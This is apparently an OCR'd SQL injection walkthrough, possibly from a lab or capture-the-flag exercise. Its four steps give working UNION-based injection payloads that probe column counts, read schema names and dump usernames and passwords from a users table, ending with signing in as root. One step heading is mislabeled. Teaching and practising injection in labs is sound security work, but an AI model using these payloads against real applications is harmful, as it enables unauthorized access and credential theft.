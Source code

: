 # SQL Injection Walkthrough

## Step 1: Test for Input Type
Begin by testing the input type to understand how the application processes user
```sql
1 OR 1=1--
```


## Step 2: Check the Number of Output Fields
Use the following query:
```sql
1' UNION SELECT null, null, null FROM information_schema.tables;-- -
```
This query checks the number of output fields by trying different numbers of null values.

### Step 3: Find Table Names
Use the following query to retrieve table names:
```sql
1' UNION SELECT column_name, null, null FROM information_schema.columns WHERE table_name='users';-- -
```
This query retrieves column names from the users table.

### Step 4: Retrieve Name and Password Columns from a Known Table
Use the following query:

```sql
1' UNION SELECT username, password, null FROM users;-- -
```
This query retrieves the username and password columns from the users table.
The table displays the root’s password, which can be used to sign in.


